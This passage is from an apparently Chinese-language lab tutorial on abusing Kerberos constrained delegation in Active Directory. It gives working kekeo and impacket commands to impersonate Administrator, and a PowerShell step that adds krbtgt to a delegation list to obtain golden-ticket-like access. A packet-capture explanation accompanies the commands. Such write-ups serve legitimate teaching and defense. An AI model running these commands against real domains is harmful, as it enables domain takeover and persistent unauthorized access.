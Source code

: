 既然服务用户的TGT导出来了，我们就跳过tgt::ask请求TGT这步，直接tgs::s4u
```
tgs::s4u /tgt:[0;196b1e4]-2-0-60a00000-qiyou@krbtgt-QIYOU.COM.kirbi /user:Administrator@qiyou.com /service:cifs/dm08.qiyou.com
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208172530-f34096f0-4a54-1.png)
```
kerberos::ptt TGS_Administrator@qiyou.com@QIYOU.COM_cifs~dm08.qiyou.com@QIYOU.COM.kirbi
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208172423-cae97370-4a54-1.png)
我们来抓包看一下整个委派请求的过程

可以看到有6个请求响应的过程，我们可以分为3步来分析
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211165154-c0c23590-4cab-1.png)
1. 可以看到用户qiyou首先向KDC请求一张TGT，AS-REP请求里返回TGT，这张TGT代表的是qiyou这个用户
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211165502-30b415da-4cac-1.png)
2. 然后用这张TGT发送S4U2self请求，以Administrator的名义向TGS申请了一张访问自身服务的票据，我们这里就称为ST1吧
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211165823-a87b2da6-4cac-1.png)
1. 得到ST1之后，然后会带上ST1再次向KDC发起SU42Proxy请求，以administrator的名义请求一张访问DM08 cifs服务的票据，我们这里就称为ST2吧
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211170205-2cc5d624-4cad-1.png)
上述数据包请求过程中：第一步对应的是我们kekeo的tgt::ask；2-3是对应tgs::s4u，其中ST1和ST2分别对应的就是kekeo生成的TGS_Administrator@qiyou.com@QIYOU.COM_qiyou@QIYOU.COM.kirbi和TGS_Administrator@qiyou.com@QIYOU.COM_cifs~dm08.qiyou.com@QIYOU.COM.kirbi，不过我们最终用到是ST2，ST1可以看作一个中间产物。

得到ST2之后我们就可以回到我们的攻击机上进行ptt就能得到DM08 cifs的访问权限了

## 利用约束委派生成黄金票据
操作环境：
+ 域：qiyou.com
+ 域控：windows server 2008R2，主机名：WIN-QFPHJSM1L7G，IP：192.168.141.145，用户：administrator
+ 域内主机：windows server 2012R2，主机名：DM2012，IP：192.168.141.134，用户：qiyou
我们都知道TGT的生成是由krbtgt用户加密和签名的，如果我们能委派域上的用户去访问TGS，那么就可以伪造任意用户的TGT了，黄金票据通常情况下我们是用krbtgt的hash来伪造TGT，不过我们通过约束委派也能达到同样的效果。

注：TGS默认的spn是krbtgt/domain name，我们操作环境是krbtgt/QIYOU.COM

krbtgt默认是禁用的而且无法启用，所以我们无法使用界面来添加这个SPN。

我们可以使用powershell来添加
```
Import-Module ActiveDirectory
$user = Get-ADUser qiyou
Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/qiyou.com") }
```
注：域控默认安装ActiveDirectory，如果没有安装，可以下载dll：下载地址，然后导入就行了：`import-module .\Microsoft.ActiveDirectory.Management.dll`
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208201546-bc68548e-4a6c-1.png)
GUI界面查看一下，成功添加
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208201626-d4453568-4a6c-1.png)
我们可以用impacket系列的getST向KDC请求administrator的TGT
```
getst.exe -dc-ip 192.168.141.145 -spn krbtgt/qiyou.com -impersonate Administrator qiyou.com/qiyou:password
```
> 参数：
> -impersonate：表示伪造用户
> -spn：表示我们要委派的服务的spn，这里是TGS
> -dc-ip：域控ip
